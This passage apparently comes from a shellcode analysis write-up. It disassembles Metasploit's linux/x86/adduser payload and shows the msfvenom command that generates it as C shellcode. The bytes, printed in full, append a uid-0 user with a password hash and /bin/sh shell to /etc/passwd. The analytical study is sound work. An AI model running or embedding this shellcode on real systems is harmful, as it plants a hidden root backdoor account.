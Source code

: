 ```
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E826000000        call 0x51
0000002B  61                popa
0000002C  62736F            bound esi,[ebx+0x6f]
0000002F  6C                insb
00000030  6F                outsd
00000031  6D                insd
00000032  623A              bound edi,[edx]
00000034  41                inc ecx
00000035  7A33              jpe 0x6a
00000037  672E7A62          cs jpe 0x9d
0000003B  7139              jno 0x76
0000003D  637237            arpl [edx+0x37],si
00000040  633A              arpl [edx],di
00000042  303A              xor [edx],bh
00000044  303A              xor [edx],bh
00000046  3A2F              cmp ch,[edi]
00000048  3A2F              cmp ch,[edi]
0000004A  62696E            bound ebp,[ecx+0x6e]
0000004D  2F                das
0000004E  7368              jnc 0xb8
00000050  0A598B            or bl,[ecx-0x75]
00000053  51                push ecx
00000054  FC                cld
00000055  6A04              push byte +0x4
00000057  58                pop eax
00000058  CD80              int 0x80
0000005A  6A01              push byte +0x1
0000005C  58                pop eax
0000005D  CD80              int 0x80
```

Everything looks pretty straight forward until we see a lot of weird instructions starting around `0000002B`. We can see a total of four interrupts being called. To help analyze further let's put this through GDB. To do this we'll first extract our shellcode and place in a simple C wrapper. 


```
root@kali:~# msfvenom -p linux/x86/adduser USER=absolomb PASS=supersecret -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x26\x00\x00\x00\x61\x62"
"\x73\x6f\x6c\x6f\x6d\x62\x3a\x41\x7a\x33\x67\x2e\x7a\x62\x71"
"\x39\x63\x72\x37\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62"
"\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80"
"\x6a\x01\x58\xcd\x80";
```
